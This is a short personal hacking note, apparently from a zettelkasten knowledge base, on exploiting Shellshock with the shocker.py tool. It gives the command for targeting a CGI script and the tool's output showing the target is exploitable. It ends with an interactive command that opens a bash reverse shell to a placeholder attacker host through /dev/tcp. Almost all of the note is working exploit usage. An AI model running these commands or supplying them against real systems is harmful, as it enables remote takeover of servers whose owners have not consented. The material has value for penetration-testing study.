 # shellshock python2 exploit reverse shell usage
```
python2 shocker.py -H $IP --cgi /cgi-bin/test/test.cgi

   .-. .            .
  (   )|            |
   `-. |--. .-.  .-.|.-. .-. .--.
  (   )|  |(   )(   |-.'(.-' |
   `-' '  `-`-'  `-''  `-`--''  v1.1

 Tom Watson, tom.watson@nccgroup.trust
 https://www.github.com/nccgroup/shocker

 Released under the GNU Affero General Public License
 (https://www.gnu.org/licenses/agpl-3.0.html)


[+] Single target '/cgi-bin/test/test.cgi' being used
[+] Checking connectivity with target...
[+] Target was reachable
[+] Looking for vulnerabilities on xxxxxxxxxxxxxx:80
[+] 1 potential target found, attempting exploits
[+] The following URLs appear to be exploitable:
  [1] http://xxxxxxxxxxxxxx:80/cgi-bin/test/test.cgi
[+] Would you like to exploit further?
[>] Enter an URL number or 0 to exit: 1
[+] Entering interactive mode for http://xxxxxxxxxxxxxx:80/cgi-bin/test/test.cgi
[+] Enter commands (e.g. /bin/cat /etc/passwd) or 'quit'
  > /bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/80 0>&1'
```
# Related

- [20221003150500](/zet/20221003150500/README.md) shellshock python2 exploit
- ~/kb/hacking/exploit/shellshock-exploit.md

Tags:

    #assorted #hacking #shellshock
